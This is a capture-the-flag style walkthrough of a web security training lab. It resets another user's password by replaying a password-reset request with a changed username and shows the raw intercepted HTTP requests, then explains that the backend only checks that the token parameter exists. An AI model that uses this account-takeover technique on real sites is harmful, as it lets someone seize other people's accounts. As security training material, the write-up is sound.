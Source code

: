 # Lab 12: Password reset broken logic

## Description

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`

---

## Solution

Login with the credentials `wiener:peter` and intercept the login request in case it is useful later.

```http
POST /login HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=rb68XHfH2JNq7QCemuIc1hGa36PZB37D
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

After successfully logging in, an account screen is rendered that displays the current user's email address along with the option to update the user account's email address.

![](images/Pasted%20image%2020210814161100.png)

Log back out and return to the login page. This time, choose the `Forgot Password?` option. A prompt to enter the username or email address is rendered.

![](images/Pasted%20image%2020210814161341.png)

Enter the username `wiener` and intercept the request.

```http
POST /forgot-password HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=4s7kUoHhSV1LEZ3qjjuIBsNHAoTzbS84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener
```

Navigate to `wiener`'s email client. An email has been generated with the following password reset link: `https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq`. The token appears to be fairly random and not merely an encoded blob of user account data (i.e., `base64(username)`). Follow the link to be taken to a new form to change the password.

![](images/Pasted%20image%2020210814162049.png)

Submit the form with `peter` as the new password and intercept the request

```http
POST /forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=4s7kUoHhSV1LEZ3qjjuIBsNHAoTzbS84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq&username=wiener&new-password-1=peter&new-password-2=peter
```

The token is embedded both as a query parameter and in the body of the request. A successful submission yields a 302 redirect to `/`.

Go for an easy win. Perhaps the `POST /forgot-password` endpoint doesn't actually check to make sure `temp-forgot-password-token` is associated with the `username` from the body. Attempt to replay this request but change `username` to `carlos`.

```http
POST /forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=4s7kUoHhSV1LEZ3qjjuIBsNHAoTzbS84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq&username=carlos&new-password-1=peter&new-password-2=peter
```

The response is a 302 redirect to `/`, indicating a successful password change. Go back to the login screen and login with the credentials `carlos:peter` to complete the challenge.

---

## Understanding the Backend

What exactly is the backend doing wrong, though? It's either:

1. Ignoring `temp-forgot-password-token` altogether and simply changing the password of `username`.
2. Not ensuring there's an association between `temp-forgot-password-token` and `username` in the database.

To determine if it's #1, forward the request with username `carlos` and a new password. Remove `temp-forgot-password-token` from the query parameter, from the body, and from both, and see if any of these three requests actually changes the password.

Attempting the request with just `temp-forgot-password-token` in the body yields a successful password change. Attempting the request with just the token in the query parameter and not at all results in no password change. This indicates that the backend isn't completely ignoring the token, ruling out option #1.

To determine if it's #2, first determine if *any* token can be used with the username `carlos` by submitting requests with a modified token.

It looks like even any empty token yields a successful password change! This indicates that the backend server is simply checking the existence of the `temp-forgot-password-token` body parameter and isn't actually checking its value! As long as that parameter exists, it proceeds to change `username`'s password! Yikes!
